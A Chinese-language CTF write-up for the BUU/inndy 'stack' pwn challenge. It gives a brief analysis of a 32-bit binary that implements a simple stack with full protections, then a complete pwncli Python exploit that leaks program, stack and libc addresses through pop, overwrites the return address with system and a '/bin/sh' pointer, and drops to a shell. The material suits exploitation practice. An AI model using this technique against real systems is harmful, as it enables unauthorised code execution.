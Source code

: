 ```yaml
---
title: inndy_stack
date: 2022-12-10 13:39:25
tags: [CTF, BUU, PWN, WP]
categories: 
    - CTF
    - BUU
    - Pwn
comment: true
---
```


# 分析

![](1.png)
- 32位,保护全开

![](2.png)
- 实现了一个简单的栈

![](3.png)
- pop

![](4.png)
- push

# 思路

- v6[0]是当前栈指针（esp），可以通过pop向后移动再push修改使其指向ret addr
- 可以通过pop泄露程序地址、栈地址和libc地址
- 泄露libc地址后ROP

# Exp

``` python
#!/usr/bin/env python3
# Date: 2022-12-08 14:20:13
# Link: https://github.com/RoderickChan/pwncli
# Usage:
#     Debug : python3 exp.py debug elf-file-path -t -b malloc
#     Remote: python3 exp.py remote elf-file-path ip:port

from pwncli import *
cli_script()


io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)

def cmd(i, prompt="Cmd >>\n"):
    sla(prompt, i)

def pop():
    cmd('p')

def push(d):
    cmd('i')
    sl(str(d))

pop()
pop()
pop()
ru("Pop -> ")

libc=ELF("../libc/libc-2.23_32.so")
# libc_base-=0x1D5B73

pop()
ru("Pop -> ")
elf_base=int(ru("\n",drop=True))
elf_base-=0x75a
pop()
pop()
ru("Pop -> ")
stack=int(ru("\n",drop=True))
for i in range(6):
    push(0x59)
pop()
ru("Pop -> ")
libc_base=int(ru("\n",drop=True))
libc_base-=0x18637
one=libc_base+0x3a80c
system=libc_base+libc.sym['system']

push(16)
push(16)
push(16)
push(16)
push(system)
push(stack+0x78)
push(libc_base+0x0015902b)
cmd("x")
print(libc_base)
print(hex(elf_base))
ia()

```

![](5.png)